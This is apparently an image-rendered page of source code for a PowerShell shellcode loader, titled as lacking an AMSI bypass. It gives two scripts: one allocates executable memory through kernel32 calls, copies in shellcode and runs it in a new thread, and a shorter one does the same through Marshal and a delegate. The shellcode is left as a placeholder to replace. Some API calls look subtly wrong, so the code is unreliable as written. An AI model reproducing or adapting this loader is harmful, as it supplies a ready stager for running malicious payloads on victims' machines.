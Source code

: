 
powershell shellcode loader (without amsi bypass)

```powershell
$shellcode = @(0x90,0x90,0x90,0x90) # Replace with your shellcode

$code = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32.dll", SetLastError=true)] public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll", SetLastError=true)] public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("msvcrt.dll", SetLastError=true)] public static extern IntPtr memcpy(IntPtr dest, byte[] src, uint count);
}
"@

Add-Type -TypeDefinition $code

# Allocate memory
$mem = [Win32]::VirtualAlloc([IntPtr]::Zero, $shellcode.Length, 0x3000, 0x40)

# Copy shellcode to memory
[Win32]::memcpy($mem, $shellcode, $shellcode.Length)

# Create thread to execute shellcode
$thread = [Win32]::CreateThread([IntPtr]::Zero, 0, $mem, [IntPtr]::Zero, 0, [IntPtr]::Zero)

# Wait for thread to exit (optional)
[System.Runtime.InteropServices.Marshal]::WaitForSingleObject($thread, 0xFFFFFFFF)
```

Shorter version:

```powershell
$shellcode = @(0x90,0x90,0x90,0x90) # Replace with your shellcode

# Allocate memory
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($shellcode.Length)

# Copy shellcode to memory
[System.Runtime.InteropServices.Marshal]::Copy($shellcode, 0, $mem, $shellcode.Length)

# Create thread to execute shellcode
$thread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($mem, [System.Threading.ThreadStart])

# Start the thread
$thread.Invoke()

# Wait for thread to exit (optional)
[System.Threading.Thread]::Sleep(-1)
```
